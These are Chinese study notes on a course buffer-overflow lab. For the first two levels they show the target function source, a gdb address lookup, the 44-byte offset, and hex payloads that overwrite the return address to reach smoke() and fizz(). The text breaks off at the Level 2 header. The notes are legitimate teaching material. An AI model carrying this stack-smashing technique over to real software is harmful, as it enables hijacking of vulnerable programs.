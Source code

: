 # buffer lab学习笔记

这个lab的任务和attach_lab一样，也是要求通过栈溢出控制程序流程完成相应任务
## Level 0: Candle (10 pts)
令test函数调用完getbuf函数后执行smoke函数
smoke函数源代码
```
void smoke()
{
printf("Smoke!: You called smoke()\n");
validate(0);
exit(0);
}
```
使用gdb查看smoke函数的地址
```
pwndbg> p smoke
$1 = {<text variable, no debug info>} 0x8048c18 <smoke>
```
然后计算栈溢出偏移是44，能覆盖到eip
构建如下格式的十六进制字符完成题目要求
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
18 8c 04 08
```
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image0.png)

## Level 1: Sparkler (10 pts)
同level_0的要求，这次需要跳转到fizz函数内
fizz函数源码
```
void fizz(int val)
{
if (val == cookie) {
printf("Fizz!: You called fizz(0x%x)\n", val);
validate(1);
} else
printf("Misfire: You called fizz(0x%x)\n", val);
exit(0);
}
```
这里有个要求是需要让传参等于cookie，因为是32位的程序，所以是栈传参
并且在函数调用时先压入参数再压入返回地址，构造如下内容完成实验
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
42 8c 04 08
00 00 00 00
b8 da 18 28
```
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image0.png)

## Level 2: Firecracker (15 pts)


